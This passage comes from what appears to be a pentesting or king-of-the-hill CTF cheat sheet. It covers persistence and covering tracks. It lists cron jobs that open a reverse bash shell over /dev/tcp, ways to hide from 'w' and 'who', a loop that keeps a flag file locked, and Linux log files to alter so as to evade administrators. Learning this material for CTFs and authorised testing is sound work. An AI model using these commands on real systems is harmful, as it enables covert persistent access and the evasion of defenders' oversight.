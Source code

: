 ```
*/1 * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/127.0.0.1/2222 0>&1'
```
Or you can add in system wide contab (nano /etc/crontab)

```
*/1 * * * *     root    /bin/bash -c '/bin/bash -i >& /dev/tcp/127.0.0.1/2222 0>&1'
```
### Change SSH port
`nano /etc/ssh/sshd_config` (change PORT 22 to any port you want also you can tinker with configuration file)
`service sshd restart`     (Restart SSH service to apply changes)
### Hide yourself from "w" or "who"
`ssh user@ip -T` This -T will have some limiations , that you cannot run bash and some other commands but is helpful.

### Run Bash script on king.txt
`while [ 1 ]; do /root/chattr -i king.txt; done &`

### Send messages to logged in users
* echo "msg" > /dev/pts/pts-number `send message to specific user`<br />
* wall msg `boradcast message to everyone`<br />
  
### Closing Session (Windows)
* quser
* logoff id|user_name  

# Covering Track
11.11. Covering our Tracks

The final stages of penetration testing involve setting up persistence and covering our tracks. For today's material, we'll detail the later as this is not mentioned nearly enough.

During a pentesting engagement, you will want to try to avoid detection from the administrators & engineers of your client wherever within the permitted scope. Activities such as logging in, authentication and uploading/downloading files are logged by services and the system itself.

On Debian and Ubuntu, the majority of these are left within the "/var/log directory and often require administrative privileges to read and modify. Some log files of interest:

    "/var/log/auth.log" (Attempted logins for SSH, changes too or logging in as system users:)
<img src="https://imgur.com/37aTxnI.png/>
          
    "/var/log/syslog" (System events such as firewall alerts:)
<img src="https://imgur.com/k7scyUP.png/>    
    "/var/log/<service/"
    For example, the access logs of apache2
        /var/log/apache2/access.log
<img src="https://imgur.com/y8Rin3h.png/>
          